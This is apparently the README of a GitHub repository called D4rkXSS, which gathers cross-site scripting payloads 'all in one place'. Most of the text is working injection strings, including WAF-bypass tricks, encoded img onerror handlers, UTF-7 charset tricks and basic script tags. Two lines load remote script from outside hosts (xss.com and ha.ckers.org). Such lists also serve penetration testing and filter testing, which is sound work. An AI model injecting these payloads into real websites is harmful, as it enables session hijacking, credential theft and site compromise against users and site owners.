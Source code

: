 # D4rkXSS
<br/>
<p align="center">
	<img src="https://github.com/R0X4R/D4rkXSS/blob/master/image.png" height="200"><br/>
All in one place for XSS.<br/> <a href="https://eshansingh.in/">R0X4R</a></p>

# Contribution
This is an open source repo. Anyone can contribute. :beers: <br/>
	[![Coffee](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://buymeacoff.ee/R0X4R)

## Bypass WAF
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/noscript.txt">NO SCRIPT</a><br/>
<li>For Example:</li>

```
<acronym><p title="</#{endtag}><svg/onload=alert(#{starttag})>">
<bgsound><p title="</#{endtag}><svg/onload=alert(#{starttag})>">
<xmp><p title="</#{endtag}><svg/onload=alert(#{starttag})>">
```

<a href="https://github.com/R0X4R/D4rkXSS/blob/master/brutelogic.txt">Brutelogic</a><br/>
<li>For Example:</li>

```
\'-alert(1)//
</script><svg onload=alert(1)>
<x contenteditable onblur=alert(1)>lose focus!
```
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/fuzz.txt">Fuzz3r</a><br/>
<li>For Example:</li>

```
#getURL,javascript:alert(1)",
#goto,javascript:alert(1)",	
?javascript:alert(1)",

```
## IMG Error
<li>Encoding</li>

```
<img onerror="location='javascript:=lert(1)'" src="x">
<img onerror="location='javascript:%61lert(1)'" src="x">
<img onerror="location='javascript:\x2561lert(1)'" src="x">
<img onerror="location='javascript:\x255Cu0061lert(1)'" src="x" >
```


## Jhaddix
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/jhaddix.txt">Jhaddix</a><br/>
<li>For Example:</li>

```
'%22--%3E%3C/style%3E%3C/script%3E%3Cscript%3Eshadowlabs(0x000045)%3C/script%3E
<<scr\0ipt/src=http://xss.com/xss.js></script
%27%22--%3E%3C%2Fstyle%3E%3C%2Fscript%3E%3Cscript%3ERWAR%280x00010E%29%3C%2Fscript%3E
' onmouseover=alert(/Black.Spook/)

```

## RSnake
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/rsnake.txt">RSnake</a><br/>
<li>For Example:</li>

```
<SCRIPT>alert('XSS');</SCRIPT>
'';!--"<XSS>=&{()}
<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>

```

## MarioXSS
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/mario.txt">Mario</a><br/>
<li>For Example:</li>

```
<div id="1"><form id="test"></form><button form="test" formaction="javascript:alert(1)">X</button>//["'`-->]]>]</div><div id="2"><meta charset="x-imap4-modified-utf7">&ADz&AGn&AG0&AEf&ACA&AHM&AHI&AGO&AD0&AGn&ACA&AG8Abg&AGUAcgByAG8AcgA9AGEAbABlAHIAdAAoADEAKQ&ACAAPABi//["'`-->]]>]</div><div id="3"><meta charset="x-imap4-modified-utf7">&<script&S1&TS&1>alert&A7&(1)&R&UA;&&<&A9&11/script&X&>//["'`-->]]>]</div><div id="4">0?<script>
```
## Search Engine XSS
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/seXSS.md">seXSS</a><br/>

## Misc Payloads
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/Misc.md">Misc</a><br/>

## Basic Payloads
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/basicxss.txt">Basic</a><br/>
<li>For Example:</li>

```
<script>alert('1')</script>
"><script>alert('1')</script>
<svg/onload=alert('1');
```

